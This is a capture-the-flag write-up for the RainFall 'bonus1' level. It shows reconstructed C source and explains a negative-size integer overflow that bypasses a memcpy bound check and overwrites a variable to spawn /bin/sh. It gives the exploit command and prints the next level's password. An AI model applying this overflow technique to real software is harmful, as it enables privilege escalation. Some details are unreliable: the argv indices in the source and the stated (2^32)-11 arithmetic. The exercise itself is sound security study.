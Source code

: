 # Bonus 1

Lets take a look at the source code:

```c
int main(int argc, char **argv) {
	int		ret;
	char	array[40];
	int		size;

	size = atoi(argv[0]);
	if (size < 10) {
		memcpy(array, argv[1], size * 10);
		if (size == 0x574f4c46) {
			execl("/bin/sh", "sh", 0);
		}
		ret = 0;
	}
	ret = 1;
	return ret;
}
```

Basically, we want to copy more than 40 bytes in `array` to overflow it
and then re-write the `size` variable.
The problem is that the size check wont let us do this.
But if the `size` variable is negative,
as the 3rd parameter of `memcpy` is an unsigned int,
we can be lower than 10 and still have a positive value in the 3rd argument.

We need a value of (2^32) - 11: -2147483637

```bash
bonus1@RainFall:~$ ./bonus1 -2147483637 0000111122223333444455556666777788889999FLOW
$ whoami
bonus2
$ cd ../bonus2
$ cat .pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```